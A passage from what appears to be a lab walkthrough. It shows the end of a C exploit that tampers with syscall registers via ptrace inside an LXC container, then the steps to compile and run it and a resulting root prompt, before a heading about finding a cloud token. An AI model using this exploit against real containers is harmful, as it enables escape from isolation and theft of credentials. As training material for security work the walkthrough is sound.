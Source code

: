```c
			regs.r10 = regs.r8;
			regs.r8 = regs.r9;
			regs.r9 = 0;
			printf("syscallX %llu, before tampering\n", regs.orig_rax); dumpregs(pid);
			ptrace(PTRACE_SETREGS, pid, NULL, &regs);
			printf("after tampering\n");dumpregs(pid);
		}
		//printf("before\n");dumpregs(pid);


		if(sysStep(pid) == -1) /* go to syscall exit */
			break;
		//printf("after\n");dumpregs(pid);
	}
	return 0;
}
```

Go ahead and copy the exploit above over to the LXC Container and save it as __root.c__.

```console
root@lxc1:/home/rross# nano /tmp/root.c
root@lxc1:~# cd /tmp
root@lxc1:/tmp# ls
root.c
```

After you have the exploit saved and ready to go, let's compile it, and then run it!

```console
root@lxc1:/tmp# gcc -g -Wall root.c -o root
root@lxc1:/tmp# ls
root  root.c
root@lxc1:/tmp# chmod +x root
root@lxc1:/tmp# ./root /tmp "02 00 00 00 00 00 00 00"
syscallX 304, before tampering
rip 00007fb85648c5b9 rsp 00007fff9035ef38 efl 0000000000000202
rax ffffffffffffffda orig 0000000000000027 rdi 0000000000000130
rsi 0000000000000003 rdx 00007fff9035ef50 rcx ffffffffffffffff
r8 00007fff9035f8d4 r9 00007fff9035f8bd r10 0000000000000000

after tampering
rip 00007fb85648c5b9 rsp 00007fff9035ef38 efl 0000000000000202
rax ffffffffffffffda orig 0000000000000130 rdi 0000000000000003
rsi 00007fff9035ef50 rdx 0000000000000000 rcx ffffffffffffffff
r8 00007fff9035f8bd r9 0000000000000000 r10 00007fff9035f8d4

opened 4
# 
```

## Finding the Cloud Token:
